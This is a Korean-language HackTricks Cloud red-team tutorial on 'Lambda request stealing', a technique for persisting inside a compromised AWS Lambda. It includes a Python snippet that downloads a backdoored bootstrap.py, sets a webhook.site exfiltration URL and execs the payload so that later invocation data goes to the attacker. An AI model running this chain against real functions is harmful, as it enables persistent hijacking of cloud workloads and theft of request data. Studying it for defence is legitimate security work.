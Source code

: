 # AWS - 람다 요청 도용

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>에서 <strong>AWS 해킹을 처음부터 전문가까지 배우세요</strong>!</summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 PDF로 HackTricks를 다운로드**하려면 [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구입하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* **💬 [디스코드 그룹](https://discord.gg/hRep4RUj7f)** 또는 [텔레그램 그룹](https://t.me/peass)에 **가입**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)를 **팔로우**하세요.
* **HackTricks** 및 **HackTricks Cloud** 깃허브 저장소에 PR을 제출하여 **해킹 트릭을 공유**하세요.

</details>

## 람다 플로우

<figure><img src="../../../../.gitbook/assets/image (152).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer**는 **init** 프로세스로 **호출**을 보내는 컨테이너 외부의 프로세스입니다.
2. init 프로세스는 몇 가지 흥미로운 엔드포인트를 노출하는 **9001** 포트에서 수신 대기합니다:
* **`/2018-06-01/runtime/invocation/next`** – 다음 호출 이벤트를 가져옵니다.
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – 호출에 대한 핸들러 응답 반환
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – 실행 오류 반환
3. **bootstrap.py**는 init 프로세스에서 호출을 받아 사용자 코드를 처리하는 루프를 가지고 있습니다 (**`/next`**).
4. 마지막으로 **bootstrap.py**는 응답을 init에게 보냅니다.

bootstrap은 사용자 코드를 모듈로로드하므로 사용자 코드에 의해 수행된 모든 코드 실행은 실제로 이 프로세스에서 발생합니다.

## 람다 요청 도용

이 공격의 목표는 사용자 코드가 취약한 요청을 처리하는 **`bootstrap.py`** 프로세스 내에서 악성 **`bootstrap.py`** 프로세스를 실행하도록 만드는 것입니다. 이렇게 하면 **악성 bootstrap** 프로세스가 요청을 처리하기 위해 init 프로세스와 **통신**을 시작하고 **합법적인** bootstrap은 악성 프로세스를 실행하는 동안 **갇혀** 있어 init 프로세스에 요청을 요청하지 않을 것입니다.

사용자 코드의 코드가 합법적인 **`bootstrap.py`** 프로세스에 의해 실행되고 있기 때문에 이 작업을 달성하는 것은 간단합니다. 따라서 공격자는 다음을 수행할 수 있습니다:

* 현재 호출의 가짜 결과를 init 프로세스에 **보내어** init이 bootstrap 프로세스가 더 많은 호출을 기다리고 있다고 생각하게 합니다.
* 요청은 **`/${invoke-id}/response`**로 보내야 합니다.
* invoke-id는 합법적인 **`bootstrap.py`** 프로세스의 스택에서 [**inspect**](https://docs.python.org/3/library/inspect.html) 파이썬 모듈을 사용하여 얻을 수 있습니다 ([여기에서 제안된대로](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch\_runtime.py)) 또는 단순히 다시 **`/2018-06-01/runtime/invocation/next`**로 요청하여 얻을 수 있습니다 ([여기에서 제안된대로](https://github.com/Djkusik/serverless\_persistency\_poc/blob/master/gcp/exploit\_files/switcher.py)).
* 다음 호출을 처리할 악성 **`boostrap.py`**를 실행합니다.
* 은밀성을 위해 람다 호출 매개변수를 공격자가 제어하는 C2로 보내고 그런 다음 요청을 처리할 수 있습니다.
* 이 공격에는 시스템 또는 [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py)에서 **`bootstrap.py`**의 원본 코드를 얻어 악성 코드를 추가하고 현재 람다 호출에서 실행하는 것이 충분합니다.

### 공격 단계

1. **RCE** 취약점을 찾습니다.
2. **악의적인** **bootstrap**을 생성합니다 (예: [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py))
3. 악의적인 bootstrap을 **실행**합니다.

이러한 작업을 쉽게 수행할 수 있습니다.
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
더 많은 정보는 [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda\_bootstrap\_switcher)에서 확인하세요.

## 참고 자료

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)
